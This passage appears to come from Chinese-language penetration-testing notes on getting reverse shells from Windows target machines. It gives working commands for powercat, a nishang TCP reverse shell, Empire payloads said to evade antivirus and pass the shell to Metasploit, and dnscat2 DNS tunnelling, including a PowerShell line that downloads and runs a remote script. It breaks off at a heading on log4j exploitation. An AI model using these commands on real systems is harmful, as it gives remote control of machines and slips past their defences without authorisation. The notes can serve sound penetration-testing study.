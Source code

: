   #下载到目标机器本地后执行
  Import-Module ./powercat.ps1PS C:\WWW> powercat -c 192.168.99.242 -p 1234 -e cmd
  ```

- nishang时基于powershell的渗透测试工具，需要powershell的版本达到3.0及以上。推荐win10版本电脑或windowsserver2008以上版本服务器。
    - https://github.com/samratashok/nishang
    -  靶机：Invoke-PowerShellTcp -Reverse -IPAddress [攻击机ip]  -Port [port]

**msf反弹**:

**Empire反弹**

- Empire是一款针对Windows平台的，使用powershell脚本作为攻击载荷的渗透攻击框架代码，具有从stager生成，提权到渗透维持的一系列功能，无需powershell.exe就可以使用powershell 的代理功能，还可以快速在后期部署漏洞利用模块，内置模块有键盘记录等，可以躲避网络检测和大部分安全防护工具，是一个基于powershell 的远控木马。


* 项目地址：<https://github.com/EmpireProject/Empire>

* 在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时,可以执行Empire的Payload来绕过，成功之后再使用Empire的模块将其反弹回Metasploit。

- **步骤**

    - 靶机使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

    -  ```
         set Lhost [攻击机ip]
         set Lport [port]
         ```

* 攻击机利用msf，设置监听，运行后，就可以收到Empire反弹回来的Shell。

**Dnscat反弹**

- Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。


- github项目地址：<https://github.com/iagox86/dnscat2>


- 
    攻击机：


~~~bash
ruby dnscat2.rb --dns "domain=[dns服务器域名],host=[攻击机ip]" --no-cache -e open -e open 
~~~

- 
    靶机：


~~~bash
owershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain [dns服务器域名] -DNSServer [攻击机ip]
~~~



# 漏洞利用分析案例

## 0x01 log4j漏洞利用

  ```